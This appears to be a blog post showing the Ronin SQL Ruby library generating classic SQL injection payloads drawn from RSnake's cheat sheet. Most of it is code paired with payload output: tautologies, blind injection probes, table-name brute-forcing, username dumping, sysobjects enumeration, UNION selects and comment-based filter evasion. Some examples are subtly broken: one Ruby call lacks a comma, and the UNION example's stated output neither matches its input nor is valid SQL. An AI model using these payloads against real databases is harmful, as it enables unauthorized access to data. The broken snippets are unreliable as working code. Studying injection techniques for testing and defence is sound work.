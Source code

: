 ```yaml
---
layout: post
title: RSnakes SQLi Cheat Sheet using Ronin SQL
author: postmodern
---
```


One of the planned features listed in the
[Spring Cleaning Campaign (2010)](/blog/2010/01/12/spring-cleaning.html)
was a simple Ruby->SQL encoder for the
[Ronin SQL](http://github.com/ronin-ruby/ronin-sql/) library, to replace the
overly complex Ronin SQL DSL. This encoder would format Ruby Integers,
Strings, Arrays and Hashes into fragments of proper SQL.

The Ruby->SQL encoder has gotten to the point
of being able to recreate most of the examples from
[RSnake's SQL Injection Cheat Sheet](http://ha.ckers.org/sqlinjection/):

Load `ronin-sql`:

{% highlight ruby %}
require 'ronin/code/sql' 
include Ronin

sql = Code.sql
{% endhighlight %}

Normal SQL Injection:

{% highlight ruby %}
sql[1, :or, 1, :eq, 1].to_sql
# => "1 or 1 = 1"
{% endhighlight %}

Normal SQL Injection using encapsulated data:

{% highlight ruby %}
sql['1', :or '1', :eq, '1'].to_sql
# => "'1' or '1' = '1'"
{% endhighlight %}

Blind SQL Injection creating an error using EXEC:

{% highlight ruby %}
sql[1, :exec, :sp_, [sql[:or, :exec, :xp_]]].to_sql
# => "1 exec sp_ (or exec xp_)"
{% endhighlight %}

Blind SQL Injection detection:

{% highlight ruby %}
sql[1, :and, 1, :eq, 1].to_sql
# => "1 and 1 = 1"
{% endhighlight %}

Blind SQL Injection to attempt to locate tablenames by brute-force
iteration through potential names:

{% highlight ruby %}
sql['1', :and, 1, :eq, [sql[:select, sql.count(:all), :from, :tablenames]]].to_sql
# => "'1' and 1 = (select count(*) from tablenames)"
{% endhighlight %}

Using the `USER_NAME()` function in SQL Server to tell us if the user is
running as the administrator:

{% highlight ruby %}
sql[1, :and, sql.user_name(), :eq, 'dbo'].to_sql
# => "1 and user_name() = 'dbo'"
{% endhighlight %}

Creating errors by calling fake tables:

{% highlight ruby %}
sql[1, :and, :non_existant_table, :eq, '1'].to_sql
# => "1 and non_existant_table = '1'"
{% endhighlight %}

Dumping usernames:

{% highlight ruby %}
sql[:or, :username, :is, :not, nil, :or, :username, :eq].to_sql
# => "or username is not null or username ="
{% endhighlight %}

Enumerating through database table names:

{% highlight ruby %}
sql[1, :and, sql.ascii(
  sql.lower(
    sql.substring(
      [sql[:select, :top, 1, :name, :from, :sysObjects, :where, :xtype, :eq, 'U']], 1, 1
    )
  )
), :gt, 116].to_sql
# => "1 and ascii(lower(substring((select top 1 name from sysobjects where xtype = 'U'),1,1))) > 116"
{% endhighlight %}

Finding user supplied tables using the sysObjects table in SQL Server:

{% highlight ruby %}
sql[1, :union, :all, :select, [1,2,3,4,5,6,:name], :from, :sysObjects, :where, :xtype, :eq, 'U'].to_sql
# => "1 union * select (1,2,3,4,5,6,name) from sysObjects where xtype = 'U'"
{% endhighlight %}

Bypassing filter evasion using comment tags:

{% highlight ruby %}
stmt = sql[1, :union, :select, :all, :from, :where]
stmt.to_sql
# => "1 union select * from where"

stmt.to_sql(:spaces => false)
# => "1/**/union/**/select/**/*/**/from/**/where"
{% endhighlight %}

<div class="note">
  <p>
  I cheated a little by leaving off the prefix/suffix tick-marks used in
  SQL injections, but you get the general idea.
  </p>
</div>

New SQL fragments are created using the `sql[...]` syntax, and new SQL
function calls are created with `sql.func_name`. Note, that you can nest
SQL fragments by using the `[sql[...]]` or `[sql.func_name(....)]` syntax.

